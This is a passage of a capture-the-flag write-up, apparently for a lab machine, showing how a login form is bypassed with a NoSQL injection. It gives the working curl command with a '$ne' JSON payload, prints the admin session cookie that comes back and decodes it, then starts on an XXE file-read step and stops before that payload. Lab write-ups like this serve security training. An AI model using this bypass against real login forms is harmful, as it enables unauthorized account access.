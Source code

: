 Finally, we bypassed the login form with NoSQLi in json format. Now, with burpsuite, we can retireve the session cookie and navigate as admin:
```html
❯ curl -X POST "http://10.10.11.139:5000/login" -H "Content-Type: application/json" -d '{"user":"admin", "password": {"$ne": "bar"}}' -i -s | grep Cookie
Set-Cookie: auth=%7B%22user%22%3A%22admin%22%2C%22sign%22%3A%2223e112072945418601deb47d9a6c7de8%22%7D; Max-Age=900; Path=/; Expires=Fri, 03 Jun 2022 15:45:33 GMT; HttpOnly
```
The session cookie is `%7B%22user%22%3A%22admin%22%2C%22sign%22%3A%2223e112072945418601deb47d9a6c7de8%22%7D`, as we can se, url encoded. Decoded. it looks like:
```json
{"user":"admin","sign":"23e112072945418601deb47d9a6c7de8"}
```
As admin we can see:
![](img/2022-06-03-13-26-44.png)
We obtain new functionalities such as `create`, `upload`, `edit`, and `delete` artiles.

#### LFR via XXE
If we try to upload an arbitrary file, we obtain this response:
```html
Invalid XML Example: <post><title>Example Post</title><description>Example Description</description><markdown>Example Markdown</markdown></post>`
```
Which offers an example of how articles should be uploaded. If we craft an example article like:
```xml
<post>
  <title>Test article</title>
  <description>This is a test made by developers, ignore it</description>
  <markdown>#Testing the markdown</markdown>
</post>
```
The result of uploading it is: